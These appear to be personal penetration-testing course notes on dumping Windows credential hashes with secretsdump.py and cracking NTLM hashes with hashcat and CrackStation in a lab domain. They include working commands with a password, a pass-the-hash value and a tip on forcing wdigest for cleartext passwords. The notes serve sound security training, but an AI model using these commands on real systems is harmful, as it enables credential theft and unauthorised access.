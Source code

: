 Dumping and Cracking Hashes

Tuesday, October 10, 2023

8:10 PM

 

-   Example with a password

    -   secretsdump.py MARVEL.local/fcastle:\'Password1\'@10.0.2.220

![](002_Dumping_and_Cracking_Hashes_000.png){width="11.635416666666666in" height="5.875in"}

-   Look out for wdigest also for older systems -can be forced on (make sure to flip off or you create a problem, more a last resort technique)

-   Look for clear text passwords and auto logon passwords

-   Sam hashes most important

 

Make sure to check all machines

![](002_Dumping_and_Cracking_Hashes_001.png){width="11.59375in" height="5.9375in"}

 

 

-   Example of secrets.py with hashes

    -   secretsdump.py administrator@10.0.2.221 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b

![](002_Dumping_and_Cracking_Hashes_002.png){width="11.760416666666666in" height="5.895833333333333in"}

 

Thought process example

![](002_Dumping_and_Cracking_Hashes_003.png){width="14.84375in" height="1.7708333333333333in"}

 

 

 

-   Crack hash for NTLM all you need is NT portion (second part)

    -   aad3b435b51404eeaad3b435b51404ee:[64f12cddaa88057e06a81b54e73b949b]{.mark}

Crackstation example

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

![](002_Dumping_and_Cracking_Hashes_004.png){width="20.0in" height="10.822916666666666in"}

 

-   Cracking NTLM with hashcat example

    -   Remember you can use help in hashcat to find module needed- hashcat \--help \| grep NTLM

    -   Hashidentifier also

    -   Run with rockyou.txt hashcat -m1000 ntlm.txt /usr/share/wordlists/rockyou.txt

![](002_Dumping_and_Cracking_Hashes_005.png){width="17.5in" height="10.9375in"}

 
